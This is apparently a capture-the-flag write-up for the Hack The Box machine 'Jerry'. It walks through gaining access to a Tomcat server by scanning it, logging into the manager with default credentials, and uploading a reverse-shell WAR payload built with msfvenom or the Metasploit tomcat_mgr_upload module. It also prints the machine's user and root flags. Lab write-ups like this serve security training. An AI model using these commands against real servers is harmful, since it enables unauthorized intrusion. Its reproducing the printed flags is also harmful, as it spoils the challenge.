




# jerry

[link to the box](https://app.hackthebox.com/machines/Jerry)

1. [scanning](#scanning)
2. [getting-manager](#getting-manager)
3. [exploiting](#exploiting)
   1. [msfvenom](#msfvenom)
   2. [msfconsole](#msfconsole)
4. [pwning](#pwning)


# scanning

as with anything, we first scan the target for open ports

```bash
$ nmap -Pn -sV 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

this looks like a webpage that we can try to visit. lets connect to it!

# getting-manager

http://10.10.10.95:8080/



the fancy tomcat web server looks like it has a manager portal. lets try accessing it with some common usernames and passwords:

`root:root root:toor admin:password admin:1234`

...none of which work, obvoiusly. we do get to see a nice 'access denied' webpage though.



which happens to highlight a default username and password for tomcat, `tomcat:s3cret`. lets try it.



and we have access to manager now! what a dumb way to get to it. from manager, we are able to upload our own `.WAR` files to the server.

upon further research, these are executed on the host machine and therefore can be used to create a reverse shell! lets explore 2 methods we have at our disposal for this.

# exploiting

## msfvenom

an easy way to get a reverse shell would be to use `msfvenom` to create a payload that we deploy manually on the server. here is a short walkthrough:

use `msfvenom` to create payload using the command:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<local ip> LPORT=<unused port> -f war > jsp-shell-reverse-tcp.war
```

once the payload has been created, start netcat to recieve the reverse shell.

```bash
nc -lvp <same unused port>
```

upload the payload through the manager webportal, then click on its file in the 'applications' table to execute it.

congrats! you now have a reverse shell.

## msfconsole

a simpler and automatic method would be to use `exploit/multi/http/tomcat_mgr_upload` in `msfconsole` to create our reverse shell. here is a short walkthrough:

```bash
$ msfconsole
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 payload(...) > options
msf6 payload(...) > set RHOSTS 10.10.10.95
msf6 payload(...) > set RPORT 8080
msf6 payload(...) > set HttpUsername tomcat
msf6 payload(...) > set HttpPassword s3cret
msf6 payload(...) > set LHOST <local ip>
msf6 payload(...) > set LPORT <unused port>
msf6 payload(...) > exploit
```

congrats! you now have a reverse shell on the target machine.

# pwning

since we are now properly in a windows shell, we can start looking around for flags.

(if you are in an meterpreter shell, run `shell` to open cmd.exe)

first, run `whoami` to see what permissions we have.



oh. we are administraror. no escalation needs to occur.

search the system for flag files:

```bash
cd ..              # get to root of disk
where /r c: *flag* # nothing
where /r c: *.txt  # something!
```

using `where` in windows, we are able to find `c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"`

use `type` to print the contents of the file

```bash
type c:\Users\Administrator\Desktop\flags\"2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

congrats! youre winner.
